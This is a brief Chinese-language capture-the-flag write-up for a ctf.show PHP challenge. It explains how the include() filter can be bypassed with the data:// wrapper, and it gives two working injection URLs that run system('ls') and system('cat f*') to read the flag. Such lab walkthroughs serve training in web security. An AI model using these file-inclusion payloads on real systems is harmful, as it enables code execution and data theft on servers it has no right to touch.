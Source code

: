 我们可以看到，这个题得代码不一样了，如果变量c不含有flag，直接将变量c用include包含进去，所以我们c应该是一个文件路径，并且不含有flag。然后直接打印出变量flag。不含有执行函数了，所以我们需要直接把文章内容展示出来。

所以这个时候可以用到data://伪协议。

因为data后面可以直接执行php代码，并且会被当成文件执行

所以我们可以写出代码

```php
http://d3abe00c-1c18-4266-bca4-8ca9dfd737aa.challenge.ctf.show/?c=data://text/plain,<?php system("ls")?>
```

<figure><img src="../.gitbook/assets/image 23.png" alt=""><figcaption></figcaption></figure>

发现这下又和我们之前前面的单纯输入php代码执行一样的了。

```php
http://d3abe00c-1c18-4266-bca4-8ca9dfd737aa.challenge.ctf.show/?c=data://text/plain,<?php system("cat f*")?>
```
